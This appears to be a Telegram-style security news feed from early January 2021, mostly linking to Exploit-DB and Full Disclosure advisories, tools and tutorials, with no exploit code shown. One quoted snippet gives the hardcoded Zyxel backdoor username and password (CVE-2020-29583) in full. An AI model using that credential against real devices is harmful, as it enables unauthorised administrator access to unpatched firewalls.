`2021-01-04 12:53:19`

<blockquote>
[webapps] Wordpress Core 5.2.2 - 'post previews' XSS
https://www.exploit-db.com/exploits/49338

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49338">
https://www.exploit-db.com/exploits/49338
</a>
<blockquote>
Wordpress Core 5.2.2 - 'post previews' XSS. CVE-2019-16223 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-04 12:53:18`

<blockquote>
[dos] Easy CD &amp; DVD Cover Creator 4.13 - Denial of Service (PoC)
https://www.exploit-db.com/exploits/49337

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49337?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49337?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Easy CD &amp; DVD Cover Creator 4.13 - Denial of Service (PoC).. dos exploit for Windows platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-04 12:53:17`

<blockquote>
[local] MiniTool ShadowMaker 3.2 - 'MTAgentService' Unquoted Service Path
https://www.exploit-db.com/exploits/49336

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49336?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/49336?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
MiniTool ShadowMaker 3.2 - 'MTAgentService' Unquoted Service Path.. local exploit for Windows platform
</blockquote>
</td></tr></table>

---

# ctfchat
`2021-01-04 12:49:23`

<blockquote>
https://github.com/Kochanac/ctf_thief_tools
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/Kochanac/ctf_thief_tools">
https://github.com/Kochanac/ctf_thief_tools
</a>
<blockquote>
small cli scripts to dump &amp; manage some ctf tasks. Contribute to Kochanac/ctf_thief_tools development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-04 02:53:30`

<blockquote>
Threat: Trojan.Win32.Antavka.bz / Insecure Permissions EoP
http://seclists.org/fulldisclosure/2021/Jan/17

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/17">
https://seclists.org/fulldisclosure/2021/Jan/17
</a>
</td></tr></table>

---

# defcon_news
`2021-01-04 02:53:29`

<blockquote>
WIN32 BACKDOOR - 2019-02-ARTRADOWNLOADER / Remote SEH Buffer Overflow and Insecure Permissions
http://seclists.org/fulldisclosure/2021/Jan/16

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/16">
https://seclists.org/fulldisclosure/2021/Jan/16
</a>
</td></tr></table>

---

# defcon_news
`2021-01-04 02:53:27`

<blockquote>
Trojan.Win32.Barjac / Remote Stack Buffer Overflow.
http://seclists.org/fulldisclosure/2021/Jan/14

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/14">
https://seclists.org/fulldisclosure/2021/Jan/14
</a>
</td></tr></table>

---

# defcon_news
`2021-01-04 02:53:27`

<blockquote>
Backdoor.Win32.Infexor.b / Remote Buffer Overflow
http://seclists.org/fulldisclosure/2021/Jan/15

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/15">
https://seclists.org/fulldisclosure/2021/Jan/15
</a>
</td></tr></table>

---

# defcon_news
`2021-01-04 02:53:26`

<blockquote>
Trojan.Win32.Bayrob.cgau / Insecure Permissions EoP (SYSTEM)
http://seclists.org/fulldisclosure/2021/Jan/13

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/13">
https://seclists.org/fulldisclosure/2021/Jan/13
</a>
</td></tr></table>

---

# defcon_news
`2021-01-04 02:53:25`

<blockquote>
Email-Worm.Win32.Zhelatin.ago / Remote Stack Buffer Overflow
http://seclists.org/fulldisclosure/2021/Jan/12

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/12">
https://seclists.org/fulldisclosure/2021/Jan/12
</a>
</td></tr></table>

---

# defcon_news
`2021-01-04 02:53:24`

<blockquote>
Trojan:Win32/Alyak.B / Remote Stack Corruption
http://seclists.org/fulldisclosure/2021/Jan/11

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/11">
https://seclists.org/fulldisclosure/2021/Jan/11
</a>
</td></tr></table>

---

# defcon_news
`2021-01-04 02:53:23`

<blockquote>
[KIS-2020-11] qdPM &lt;&#61;9.1 (executeExport) PHP Object Injection Vulnerability
http://seclists.org/fulldisclosure/2021/Jan/10

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/10">
https://seclists.org/fulldisclosure/2021/Jan/10
</a>
</td></tr></table>

---

# defcon_news
`2021-01-04 02:53:21`

<blockquote>
BACKDOOR.WIN32.ADVERBOT / Remote Stack Corruption
http://seclists.org/fulldisclosure/2021/Jan/9

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/9">
https://seclists.org/fulldisclosure/2021/Jan/9
</a>
</td></tr></table>

---

# defcon_news
`2021-01-04 02:53:21`

<blockquote>
BACKDOOR.WIN32.REMOTEMANIPULATOR / Insecure Permissions
http://seclists.org/fulldisclosure/2021/Jan/8

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/8">
https://seclists.org/fulldisclosure/2021/Jan/8
</a>
</td></tr></table>

---

# defcon_news
`2021-01-04 02:53:20`

<blockquote>
Backdoor.Win32.Zombam.j / Remote Stack Buffer Overflow
http://seclists.org/fulldisclosure/2021/Jan/7

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/7">
https://seclists.org/fulldisclosure/2021/Jan/7
</a>
</td></tr></table>

---

# defcon_news
`2021-01-04 02:53:19`

<blockquote>
HEUR.RISKTOOL.WIN32.BITMINER.GEN / Remote Memory Corruption
http://seclists.org/fulldisclosure/2021/Jan/6

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/6">
https://seclists.org/fulldisclosure/2021/Jan/6
</a>
</td></tr></table>

---

# defcon_news
`2021-01-04 02:53:18`

<blockquote>
TROJAN.WIN32.JORIK.DMSPAMMER.SZ / Remote Memory Corruption
http://seclists.org/fulldisclosure/2021/Jan/5

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/5">
https://seclists.org/fulldisclosure/2021/Jan/5
</a>
</td></tr></table>

---

# defcon_news
`2021-01-04 02:53:17`

<blockquote>
Phorpiex / Insecure permissions EoP
http://seclists.org/fulldisclosure/2021/Jan/4

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/4">
https://seclists.org/fulldisclosure/2021/Jan/4
</a>
</td></tr></table>

---

# defcon_news
`2021-01-04 02:53:15`

<blockquote>
BACKDOOR.WIN32.BNLITE / Remote Heap Corruption
http://seclists.org/fulldisclosure/2021/Jan/3

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/3">
https://seclists.org/fulldisclosure/2021/Jan/3
</a>
</td></tr></table>

---

# defcon_news
`2021-01-04 01:53:31`

<blockquote>
Stored XSS In Hyland's Enterprise Search
http://seclists.org/fulldisclosure/2021/Jan/2

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/2">
https://seclists.org/fulldisclosure/2021/Jan/2
</a>
</td></tr></table>

---

# defcon_news
`2021-01-04 01:53:29`

<blockquote>
Multiple vulnerabilities found in Rock RMS including RCE and account takeover
http://seclists.org/fulldisclosure/2021/Jan/1

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/1">
https://seclists.org/fulldisclosure/2021/Jan/1
</a>
</td></tr></table>

---

# defcon_news
`2021-01-04 01:53:27`

<blockquote>
Multiple vulnerabilities in Gotenberg &lt;&#61;6.2.0
http://seclists.org/fulldisclosure/2021/Jan/0

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Jan/0">
https://seclists.org/fulldisclosure/2021/Jan/0
</a>
</td></tr></table>

---

# defcon_news
`2021-01-03 21:53:20`

<blockquote>
My first (unfortunaly incomplete due to lab limitations) report
https://www.reddit.com/r/Malware/comments/kpn6d8/my_first_unfortunaly_incomplete_due_to_lab/

via Malware Analysis &amp; Reports
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/Malware/comments/kpn6d8/my_first_unfortunaly_incomplete_due_to_lab/">
https://www.reddit.com/r/Malware/comments/kpn6d8/my_first_unfortunaly_incomplete_due_to_lab/
</a>
<blockquote>
[https://github.com/Finch4/Malware-Analysis-Reports/tree/main/03.01.2021/Agent%20Tesla%20Dropper](https://github.com/Finch4/Malware-Analysis-Report...
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-01-02 18:19:33`

<blockquote>
GitHub - MichaelKoczwara/Awesome-CobaltStrike-Defence: Defences against Cobalt Strike
https://github.com/MichaelKoczwara/Awesome-CobaltStrike-Defence
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/MichaelKoczwara/Awesome-CobaltStrike-Defence">
https://github.com/MichaelKoczwara/Awesome-CobaltStrike-Defence
</a>
<blockquote>
Defences against Cobalt Strike. Contribute to MichaelKoczwara/Awesome-CobaltStrike-Defence development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2021-01-02 13:05:21`

<blockquote>
Захардкоженная учётная запись в устройствах Zyxel

С доступом по ssh, правами admin. Из web интерфейса пароль и сама учётная запись недоступны для изменения:

https://www.eyecontrol.nl/blog/undocumented-user-account-in-zyxel-products.html

Advisory от Zyxel:

https://www.zyxel.com/support/CVE-2020-29583.shtml
</blockquote>

<table><tr><td><b>→</b><a href="https://www.eyecontrol.nl/blog/undocumented-user-account-in-zyxel-products.html">
https://www.eyecontrol.nl/blog/undocumented-user-account-in-zyxel-products.html
</a>
<blockquote>
Zyxel is a popular brand for firewalls that are marketed towards small and medium businesses. Their Unified Security Gateway (USG) product line is often used as a firewall or VPN gateway. As a lot of us are working from home, VPN-capable devices have been quite selling well lately.
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-01-02 13:00:08`

<blockquote>
&#35;threatleak 

https://cvepremium.circl.lu/cve/CVE-2020-35391
</blockquote>

<table><tr><td><b>→</b><a href="https://cvepremium.circl.lu/cve/CVE-2020-35391">
https://cvepremium.circl.lu/cve/CVE-2020-35391
</a>
</td></tr></table>

---

# defcon_news
`2021-01-02 12:53:40`

<blockquote>
Бэкдор в межсетевых экранах и точках доступа Zyxel
https://www.opennet.ru/opennews/art.shtml?num&#61;54343

via OpenNews.opennet.ru: Проблемы безопасности
</blockquote>

<table><tr><td><b>→</b><a href="https://www.opennet.ru/opennews/art.shtml?num=54343">
https://www.opennet.ru/opennews/art.shtml?num=54343
</a>
<blockquote>
В оборудовании Zyxel выявлено наличие бэкдора (CVE-2020-29583), позволяющего удалённо получить доступ к устройству с правами администратора. Проблема вызвана наличием встроенной учётной записи &quot;zyfwp&quot;, дающей возможность подключиться к системе с предопределённым паролем &quot;PrOw!aN_fXp&quot; по протоколу SSH или через web-интерфейс.
</blockquote>
</td></tr></table>

---

# R0_Crew
`2021-01-02 10:22:22`

<blockquote>
New Year’s gift from author of HRDevHelper IDAPython plugin. Some new features:

1. Popup hints hold additional information on the current item
2. Nodes linked to a decompiled line are highlighted
3. Pressing &quot;s&quot; on the keyboard toggles sync on/off (center on current node).

https://github.com/patois/HRDevHelper

 &#35;reverse &#35;ida &#35;dukeBarman
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/patois/HRDevHelper">
https://github.com/patois/HRDevHelper
</a>
<blockquote>
Context-sensitive HexRays decompiler plugin that visualizes the ctree of decompiled functions. - patois/HRDevHelper
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-01-02 01:55:29`

<blockquote>
&#35;threatleak 

https://www.zyxel.com/support/CVE-2020-29583.shtml
</blockquote>

<table><tr><td><b>→</b><a href="https://www.zyxel.com/support/CVE-2020-29583.shtml">
https://www.zyxel.com/support/CVE-2020-29583.shtml
</a>
<blockquote>
Zyxel has released a patch for the hardcoded credential vulnerability of firewalls and AP controllers recently reported by researchers from Eye Control Netherlands. Users are advised to install the applicable firmware updates for optimal protection.
</blockquote>
</td></tr></table>

---

# R0_Crew
`2021-01-01 22:47:26`

<blockquote>
ARM64 Android/Linux kernel gdb scripts https://github.com/duasynt/gdb_scripts &#35;reverse &#35;android &#35;dukeBarman
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/duasynt/gdb_scripts/">
https://github.com/duasynt/gdb_scripts/
</a>
<blockquote>
Contribute to duasynt/gdb_scripts development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-01-01 14:53:18`

<blockquote>
GKE Auditor – Detect Google Kubernetes Engine Misconfigurations
https://www.darknet.org.uk/2021/01/gke-auditor-detect-google-kubernetes-engine-misconfigurations/

via Darknet
</blockquote>

<table><tr><td><b>→</b><a href="https://www.darknet.org.uk/2021/01/gke-auditor-detect-google-kubernetes-engine-misconfigurations/">
https://www.darknet.org.uk/2021/01/gke-auditor-detect-google-kubernetes-engine-misconfigurations/
</a>
<blockquote>
GKE Auditor is a Java-based tool to detect Google Kubernetes Engine misconfigurations, it aims to help security and development teams streamline the configuration process and save time looking for generic bugs and vulnerabilities. The tool consists of individual modules called Detectors, each scanning for a specific vulnerability. Installing and Using GKE Auditor to Detect Google Kubernetes Engine Misconfigurations Installation git clone https://github.com/google/gke-auditor cd ./gke-auditor/ ./build.sh Usage The tool has to be built by running the build.sh script first. Once the tool is built, it can be run using the auditor.sh script, using the following options: ./auditor.sh -a,--all Run all detectors.
</blockquote>
</td></tr></table>

---

# R0_Crew
`2021-01-01 13:16:55`

<blockquote>
A comprehensive reverse engineering tutorial covering x86, x64, 32-bit ARM &amp; 64-bit ARM architectures https://github.com/mytechnotalent/Reverse-Engineering-Tutorial &#35;reverse &#35;dukeBarman
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/mytechnotalent/Reverse-Engineering-Tutorial">
https://github.com/mytechnotalent/Reverse-Engineering-Tutorial
</a>
<blockquote>
A FREE comprehensive reverse engineering course covering x86, x64, 32-bit ARM &amp; 64-bit ARM architectures. - mytechnotalent/Reverse-Engineering
</blockquote>
</td></tr></table>

---

